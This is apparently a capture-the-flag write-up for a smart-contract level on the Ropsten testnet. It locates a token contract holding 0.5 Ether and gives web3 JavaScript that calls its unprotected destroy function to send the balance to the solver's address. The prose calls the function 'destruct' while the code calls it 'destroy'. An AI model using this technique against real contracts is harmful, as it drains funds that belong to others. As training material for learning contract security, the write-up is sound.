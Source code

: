 To solve this I opened the level instance contract in the Etherscan UI and browsed to the transaction which created it. In that transaction we can see [another contract created](https://ropsten.etherscan.io/address/0xb2203b6861426d45635b289db0b7b16cc3c84006#internaltx). This [other contract](https://ropsten.etherscan.io/address/0x92864705010ace29195b2f1d08d8a7780b2f7d7d) was presumably the token contract, which was verified by the fact that it had a 0.5 Ether balance, which the level description mentions we have to move.

Note that using the Etherscan UI is the easy route. We could have alternatively calculated the contract address which was created as they're created in a deterministic fashion.

Now all we have to do to solve this is call the `destruct` function on the contract, which anyone can call, which will invoke `selfdestruct` with an address we provide.

To call this method I used the following JavaScript:
```javascript
var abi = [
    {
        "constant": false,
        "inputs": [
            {
                "name": "_to",
                "type": "address"
            }
        ],
        "name": "destroy",
        "outputs": [],
        "payable": false,
        "stateMutability": "nonpayable",
        "type": "function"
    },
    {
        "constant": true,
        "inputs": [],
        "name": "name",
        "outputs": [
            {
                "name": "",
                "type": "string"
            }
        ],
        "payable": false,
        "stateMutability": "view",
        "type": "function"
    },
    {
        "constant": true,
        "inputs": [
            {
                "name": "",
                "type": "address"
            }
        ],
        "name": "balances",
        "outputs": [
            {
                "name": "",
                "type": "uint256"
            }
        ],
        "payable": false,
        "stateMutability": "view",
        "type": "function"
    },
    {
        "constant": false,
        "inputs": [
            {
                "name": "_to",
                "type": "address"
            },
            {
                "name": "_amount",
                "type": "uint256"
            }
        ],
        "name": "transfer",
        "outputs": [],
        "payable": false,
        "stateMutability": "nonpayable",
        "type": "function"
    },
    {
        "inputs": [
            {
                "name": "_name",
                "type": "string"
            },
            {
                "name": "_creator",
                "type": "address"
            },
            {
                "name": "_initialSupply",
                "type": "uint256"
            }
        ],
        "payable": false,
        "stateMutability": "nonpayable",
        "type": "constructor"
    },
    {
        "payable": true,
        "stateMutability": "payable",
        "type": "fallback"
    }
]
var contract = web3.eth.contract(abi).at("0x92864705010ACe29195B2f1D08D8a7780b2f7D7d");
```

Now we call destroy on the token and specify our own address so we receive the Ether when the contract self destructs.
```javascript
contract.destroy("0x8e0ff062059376013fa56470805bec01b5ad06cc", (error, result) => {console.log(result);})
```
